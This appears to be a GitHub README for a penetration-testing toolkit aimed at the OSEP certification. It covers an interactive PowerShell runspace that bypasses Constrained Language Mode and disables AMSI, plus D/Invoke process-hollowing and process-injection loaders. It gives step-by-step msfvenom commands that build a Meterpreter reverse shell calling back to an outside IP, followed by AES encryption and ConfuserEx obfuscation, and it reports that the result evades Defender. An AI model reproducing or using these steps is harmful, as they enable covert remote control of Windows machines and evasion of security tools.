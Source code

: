 ## InteractiveRunspace.cs

This is used to bypass CLM when you already have access to the system (like a reverse shell or RDP).  It provides a PS shell with AMSI disabled in "FullLanguage" mode that you can interactively execute commands in.


![InteractiveRunSpace Shell](https://github.com/superhac/OSEP/blob/main/images/interactiverunspaceshell.PNG)

## Powershell-Filetransfers-methods.md

Contains a list of PowerShell file transfer methods highlighting if they are "proxy aware" and if they work in when your in "ContrainedLanguageMode".

## dinvoke-phollow-aes.cs

Uses D/Invoke to hollow a process of your choosing. The default is "svchost".  This is based on the work of [FatCyclone D/Invoke in C#](https://github.com/FatCyclone/D-Pwn) with the AV bypasses stripped and I added AES128 ECB encryption.

*Note that msfvenon encoders don't work for this use-case. Do not encode your payload*

1. Create a msfvenom payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 EXITFUNC=thread -f raw -o ~/OSEP/shell.raw
```

2. Now AES 128 ECB encrypt your payload: (Note key is 16 chars.  No less or No more.)

```
python aes-encode.py --key 777456789abcdety --format csharp --file shell.raw
```

3. Take the output and put it into the VS project.  Also set your key.  Build it.
4. Then obfuscate with [ConfuserEx](https://github.com/mkaring/ConfuserEx).
5. PWN2OWN

*As of 11/30/2021 this passes Defender*

## dinvoke-pinject-aes.cs

Same as above except it uses process injection.  Default is "explorer". This is based on the work of [FatCyclone D/Invoke in C#](https://github.com/FatCyclone/D-Pwn) with the AV bypasses stripped and I added AES128 ECB encryption.  Msfvenon encoders appear to work with this method.

## aes-encrypt.py

Use this to encrypt you payloads with AES 128 ECB.  

```
# Usage:

# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 EXITFUNC=thread -f raw -o ~/OSEP/shell.raw

# python aes-encode.py --key 777456789abcdety --format csharp --file shell.raw

#

# ***** Note don't use msfvenom encoders with d/invoke process hollowing. It crashes process right on startup!!! ***

# Key size is 16 chars! No More or less
```
